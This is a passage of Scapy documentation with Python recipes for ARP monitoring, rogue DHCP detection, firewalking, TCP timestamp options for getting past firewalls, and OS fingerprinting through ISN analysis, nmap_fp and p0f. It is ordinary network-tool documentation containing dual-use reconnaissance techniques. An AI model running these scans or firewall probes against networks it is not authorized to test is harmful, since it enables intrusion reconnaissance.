This program uses the ``sniff()`` callback (paramter prn). The store parameter is set to 0 so that the ``sniff()`` function will not store anything (as it would do otherwise) and thus can run forever. The filter parameter is used for better performances on high load : the filter is applied inside the kernel and Scapy will only see ARP traffic.

::

    #! /usr/bin/env python
    from scapy.all import *
    
    def arp_monitor_callback(pkt):
        if ARP in pkt and pkt[ARP].op in (1,2): #who-has or is-at
            return pkt.sprintf("%ARP.hwsrc% %ARP.psrc%")
    
    sniff(prn=arp_monitor_callback, filter="arp", store=0)

Identifying rogue DHCP servers on your LAN 
-------------------------------------------

.. index::
   single: DHCP

Problem
^^^^^^^

You suspect that someone has installed an additional, unauthorized DHCP server on your LAN -- either unintentiously or maliciously. 
Thus you want to check for any active DHCP servers and identify their IP and MAC addresses.  

Solution
^^^^^^^^

Use Scapy to send a DHCP discover request and analyze the replies::

    >>> conf.checkIPaddr = False
    >>> hw = get_if_raw_hwaddr(conf.iface)
    >>> dhcp_discover = Ether(dst="ff:ff:ff:ff:ff:ff")/IP(src="0.0.0.0",dst="255.255.255.255")/UDP(sport=68,dport=67)/BOOTP(chaddr=hw)/DHCP(options=[("message-type","discover"),"end"])
    >>> ans, unans = srp(dhcp_discover, multi=True)      # Press CTRL-C after several seconds
    Begin emission:
    Finished to send 1 packets.
    .*...*..
    Received 8 packets, got 2 answers, remaining 0 packets

In this case we got 2 replies, so there were two active DHCP servers on the test network::

    >>> ans.summarize()
    Ether / IP / UDP 0.0.0.0:bootpc > 255.255.255.255:bootps / BOOTP / DHCP ==> Ether / IP / UDP 192.168.1.1:bootps > 255.255.255.255:bootpc / BOOTP / DHCP
    Ether / IP / UDP 0.0.0.0:bootpc > 255.255.255.255:bootps / BOOTP / DHCP ==> Ether / IP / UDP 192.168.1.11:bootps > 255.255.255.255:bootpc / BOOTP / DHCP
    }}}
    We are only interested in the MAC and IP addresses of the replies: 
    {{{
    >>> for p in ans: print(p[1][Ether].src, p[1][IP].src)
    ...
    00:de:ad:be:ef:00 192.168.1.1
    00:11:11:22:22:33 192.168.1.11

Discussion
^^^^^^^^^^

We specify ``multi=True`` to make Scapy wait for more answer packets after the first response is received.
This is also the reason why we can't use the more convenient ``dhcp_request()`` function and have to construct the DCHP packet manually: ``dhcp_request()`` uses ``srp1()`` for sending and receiving and thus would immediately return after the first answer packet. 

Moreover, Scapy normally makes sure that replies come from the same IP address the stimulus was sent to. But our DHCP packet is sent to the IP broadcast address (255.255.255.255) and any answer packet will have the IP address of the replying DHCP server as its source IP address (e.g. 192.168.1.1). Because these IP addresses don't match, we have to disable Scapy's check with ``conf.checkIPaddr = False`` before sending the stimulus.  

See also
^^^^^^^^

http://en.wikipedia.org/wiki/Rogue_DHCP



Firewalking 
-----------

TTL decrementation after a filtering operation 
only not filtered packets generate an ICMP TTL exceeded 

    >>> ans, unans = sr(IP(dst="172.16.4.27", ttl=16)/TCP(dport=(1,1024))) 
    >>> for s,r in ans: 
            if r.haslayer(ICMP) and r.payload.type == 11: 
                print(s.dport )

Find subnets on a multi-NIC firewall 
only his own NIC’s IP are reachable with this TTL:: 

    >>> ans, unans = sr(IP(dst="172.16.5/24", ttl=15)/TCP()) 
    >>> for i in unans: print(i.dst)


TCP Timestamp Filtering
------------------------

Problem
^^^^^^^

Many firewalls include a rule to drop TCP packets that do not have TCP Timestamp option set which is a common occurrence in popular port scanners.

Solution
^^^^^^^^

To allow Scapy to reach target destination additional options must be used::

    >>> sr1(IP(dst="72.14.207.99")/TCP(dport=80,flags="S",options=[('Timestamp',(0,0))]))



Viewing packets with Wireshark
------------------------------

.. index::
   single: wireshark()

Problem
^^^^^^^

You have generated or sniffed some packets with Scapy and want to view them with `Wireshark <http://www.wireshark.org>`_, because of its advanced packet dissection abilities.

Solution
^^^^^^^^

That's what the ``wireshark()`` function is for:

    >>> packets = Ether()/IP(dst=Net("google.com/30"))/ICMP()     # first generate some packets
    >>> wireshark(packets)                                        # show them with Wireshark

Wireshark will start in the background and show your packets.
 
Discussion
^^^^^^^^^^

The ``wireshark()`` function generates a temporary pcap-file containing your packets, starts Wireshark in the background and makes it read the file on startup.   

Please remember that Wireshark works with Layer 2 packets (usually called "frames"). So we had to add an ``Ether()`` header to our ICMP packets. Passing just IP packets (layer 3) to Wireshark will give strange results.

You can tell Scapy where to find the Wireshark executable by changing the ``conf.prog.wireshark`` configuration setting.



OS Fingerprinting
-----------------

ISN
^^^

Scapy can be used to analyze ISN (Initial Sequence Number) increments to possibly discover vulnerable systems. First we will collect target responses by sending a number of SYN probes in a loop::

    >>> ans,unans=srloop(IP(dst="192.168.1.1")/TCP(dport=80,flags="S"))

Once we obtain a reasonable number of responses we can start analyzing collected data with something like this:

    >>> temp = 0
    >>> for s,r in ans:
    ...    temp = r[TCP].seq - temp
    ...    print(str(r[TCP].seq) + "\t+" + str(temp))
    ... 
    4278709328      +4275758673
    4279655607      +3896934
    4280642461      +4276745527
    4281648240      +4902713
    4282645099      +4277742386
    4283643696      +5901310

nmap_fp
^^^^^^^

Nmap fingerprinting (the old "1st generation" one that was done by Nmap up to v4.20) is supported in Scapy. In Scapy v2 you have to load an extension module first::

    >>> load_module("nmap")

If you have Nmap installed you can use it's active os fingerprinting database with Scapy. Make sure that version 1 of signature database is located in the path specified by::

    >>> conf.nmap_base

Then you can use the ``nmap_fp()`` function which implements same probes as in Nmap's OS Detection engine::

    >>> nmap_fp("192.168.1.1",oport=443,cport=1)
    Begin emission:
    .****..**Finished to send 8 packets.
    *................................................
    Received 58 packets, got 7 answers, remaining 1 packets
    (1.0, ['Linux 2.4.0 - 2.5.20', 'Linux 2.4.19 w/grsecurity patch', 
    'Linux 2.4.20 - 2.4.22 w/grsecurity.org patch', 'Linux 2.4.22-ck2 (x86)
    w/grsecurity.org and HZ=1000 patches', 'Linux 2.4.7 - 2.6.11'])

p0f
^^^

If you have p0f installed on your system, you can use it to guess OS name and version right from Scapy (only SYN database is used). First make sure that p0f database exists in the path specified by::

    >>> conf.p0f_base

For example to guess OS from a single captured packet:

    >>> sniff(prn=prnp0f)
    192.168.1.100:54716 - Linux 2.6 (newer, 1) (up: 24 hrs)
      -> 74.125.19.104:www (distance 0)
    <Sniffed: TCP:339 UDP:2 ICMP:0 Other:156>



